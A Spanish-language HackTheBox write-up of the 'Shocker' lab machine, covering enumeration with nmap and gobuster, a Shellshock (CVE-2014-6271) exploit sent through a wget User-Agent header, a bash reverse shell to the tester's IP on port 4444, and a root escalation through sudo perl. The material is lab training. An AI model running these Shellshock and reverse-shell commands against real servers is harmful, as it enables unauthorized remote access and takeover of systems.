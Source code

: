 ```yaml
---
title: "Shocker - HTB Writeup"
layout: single
excerpt: "Shocker es una máquina de dificultad fácil de HackTheBox. Como el nombre de la máquina indica, se obtiene acceso a la máquina mediante la vulnerabilidad shellshock, para luego escalar privilegios abusando de un privilegio de sudoers que permite ejecutar perl como usuario root."
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/67548295/126992433-efd2ea6c-4892-433f-86e7-8f19e31063ac.png"
  teaser_home_page: true
  icon: "assets/images/icons/HackTheBox-icon.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - ShellShock
  - Perl
  - sudo
---
```



![titulo](https://user-images.githubusercontent.com/67548295/124353510-76699200-dbf6-11eb-81f4-54547de662d1.png)


# Enumeración

Primero, antes de empezar a escanear puertos y todo lo demás, voy a lanzar una traza ICMP con ```ping``` para ver si la máquina está activa:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $ping -c 1 10.10.10.56
PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=69.3 ms

--- 10.10.10.56 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 69.344/69.344/69.344/0.000 ms
```

La máquina nos contesta, quiere decir que está activa, y además mediante el TTL puedo ver que es una máquina con OS Linux.

Más información sobre la deteccion de OS mediante TTL [aquí](https://subinsb.com/default-device-ttl-values/).

También puedes hacer uso de mi herramienta [OSidentifier](https://github.com/z3robyte/OSidentifier).

# Nmap

Comenzamos con el escaneo de puertos:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $nmap --open -n -T5 10.10.10.56 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 13:11 WEST
Nmap scan report for 10.10.10.56
Host is up (0.071s latency).
Not shown: 691 closed ports, 307 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```

Podemos ver que tenemos el puerto 2222 y 80:
* 80 --> HTTP
* 2222 --> SSH

# User

Vamos a ver lo que hay en el servidor web que hay por el puerto 80:

![navegador1](https://user-images.githubusercontent.com/67548295/124353831-6baffc80-dbf8-11eb-8a89-943741d1ca3a.png)

Y podemos ver que solo hay una simple imagen.

Después de esto, hago uso de la herramienta ```wfuzz``` para enumerar directorios en la web:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wfuzz -c --hc=404 -w /usr/share/dirb/wordlists/big.txt -u "http://10.10.10.56/FUZZ" -t 50

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000016:   403        11 L     32 W       295 Ch      ".htpasswd"                                                                                                               
000000015:   403        11 L     32 W       295 Ch      ".htaccess"                                                                                                               
000004349:   403        11 L     32 W       294 Ch      "cgi-bin/"                                                                                                                
```
Y vemos que hay un directorio cgi-bin. Seguidamente pruebo a fuzzear en ese directorio en busca de archivos con extensiones comunes.

Ya que si hay archivos y la version de bash es vulnerable, podriamos aprovecharnos de la vulnerabilidad ShellShock para ganar acceso al sistema.

ShellShock es una vulnerabilidad descubierta en 2014 que permite ejecutar codigo de forma remota en la maquina de la victima, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

Esta vulnerabilidad es posible porque porque bash permite declarar funciones, pero estas no se validan de forma correcta cuando se almacenan en una variable.

Sabiendo esto, fuzzeo por esa ruta encontrada: 

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $gobuster dir -u "http://10.10.10.56/cgi-bin/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,sh,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,sh,py
[+] Timeout:        10s
===============================================================
2021/07/03 13:46:57 Starting gobuster
===============================================================
/user.sh (Status: 200)
```
Hay un script con nombre _user.sh_, lo descargo pero no hay nada interesante en el.

Pruebo a ver si es vulnerable a la vulnerabilidad ShellShock:

```bash
|─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "ping -c 1 10.10.16.15"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:54:39--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 500 Internal Server Error
2021-07-03 13:54:40 ERROR 500: Internal Server Error.
```

Ahi he probado a mandarme una traza icmp a mi maquina mientras estaba en escucha con ```tcpdump```
y me ha llegado la petición:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $sudo tcpdump -i tun0 icmp
 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:54:40.138435 IP 10.10.10.56 > 10.10.16.15: ICMP echo request, id 13628, seq 1, length 64
13:54:40.138492 IP 10.10.16.15 > 10.10.10.56: ICMP echo reply, id 13628, seq 1, length 64

```

Pues bueno, ya teniendo ejecución remota de comandos, es muy sencillo ganar acceso al sistema.

Una simple reverse shell en bash sirve:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:59:05--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Hacemos la petición a la vez que estamos en escucha por el puerto especificado en la reverse shell.

Y obtenemos acceso al sistema:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.56 42136
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

A partir de aqui podemos ver la flag del user:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt

cf33XXXXXXXXXXXXXXXXXXXXd5c573fd

shelly@Shocker:/usr/lib/cgi-bin$
```

# Privilege Escalation

Enumerando el sistema en busca de un vector para escalar privilegios, me encuentro que podemos ejecutar ```perl``` como el usuario root:

```bash
shelly@Shocker:/$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/$ 
```
Hago uso de la utilidad [GTFObins](https://gtfobins.github.io/) para spawnear una bash con perl:

![navegador2](https://user-images.githubusercontent.com/67548295/124355337-1546bc00-dc00-11eb-87aa-a0b3d8374d22.png)

Como se puede ver, podemos generar una shell con ese comando. Como podemos correr perl como root, ya podemos rootear la maquina:

```bash
shelly@Shocker:/$ sudo /usr/bin/perl -e 'exec "/bin/sh";'

# id

uid=0(root) gid=0(root) groups=0(root)
```

Y listo, máquina rooteada. En /root/ podremos ver la flag de root:

```bash
# cat /root/root.txt

2eb63e9XXXXXXXXXXXXXXXXXXXX90d45
```

# Opinión

La máquina ha sido bastante facil, pero a la vez me ha permitido repasar conceptos, me ha gustado.




